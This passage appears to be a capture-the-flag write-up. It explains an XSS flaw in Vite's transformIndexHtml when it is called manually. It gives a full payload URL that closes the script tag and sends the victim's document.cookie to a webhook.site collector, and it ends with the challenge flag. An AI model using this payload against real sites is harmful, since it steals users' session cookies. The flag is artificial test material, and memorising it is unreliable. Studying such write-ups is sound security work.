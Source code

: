 This XSS stems from Vite's `server.transformIndexHtml` function, which, when manually invoked, passes the original request URL unmodified. If the HTML being transformed contains inline module scripts (`<script type="module">...</script>`), we can inject arbitrary HTML by crafting a malicious URL query string. 

```bash
http://34.132.132.69:8001/posts/6581f78799d634eec4c7370e/?"></script><script>window.location.href=`https://webhook.site/7f71492e-bc08-4991-83c8-adb019525d48/?cookie=${document.cookie}`</script>
```

Submitting this to the Admin Bot, we get the flag.

```bash
flag=flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}
```